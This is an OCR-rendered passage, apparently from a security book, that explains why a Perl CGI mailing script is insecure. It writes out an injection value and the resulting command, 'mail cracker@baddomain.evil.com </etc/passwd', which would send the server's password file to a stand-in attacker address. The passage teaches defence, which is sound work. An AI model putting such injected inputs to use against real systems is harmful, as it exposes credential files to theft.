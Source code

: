 \documentclass[a4paper,11pt]{book}
\begin{document}
\noindent ? It generates no warnings (no use warnings flag) and doesn't use strict mode (use strict). The lack of these increase the likelihood of a bug in the script that could lead to unexpected and insecure behavior when fed the wrong data.

\noindent 

\noindent ? It doesn't check for URL-encoded characters in the query string \textit{or }attempt to decode them.

\noindent 

\noindent ? The script doesn't ensure that the mail program it runs is in the place it is supposed to be, that

\noindent is, the contents of \$ENV\{PATH\} aren't checked.

\noindent 

\noindent ? It makes no attempt to check if the email address is even halfway reasonable or that the call to the external mail program actually succeeded.

\noindent 

\noindent Not a good start -- however, it gets even worse. This script receives an email address from the user (probably via a form) that's relayed to a mailing program (\textbar mail), which sends a greeting to the supplied email address (\$mail\_to). If it receives an address of the form john.smith@myserver.com, then all is well. However, it could just as easily receive this email address:

\noindent 

\noindent 

\noindent cracker@baddomain.evil.com+$<$/etc/passwd

\noindent 

\noindent This would cause the open statement to execute the following command:

\noindent 

\noindent 

\noindent mail cracker@baddomain.evil.com $<$/etc/passwd

\noindent 

\noindent Now  if this were  running on  a  UNIX  system  (and  passwords  aren't  being  kept  in  a  shadow

\noindent password file),  this would have  just  mailed  cracker a  copy  of  the server's  password  file.  Although

\noindent it wouldn't grant them  immediate  access,  they  could  attempt  to  crack  the  file to  release  user accounts and  passwords.
\end{document}
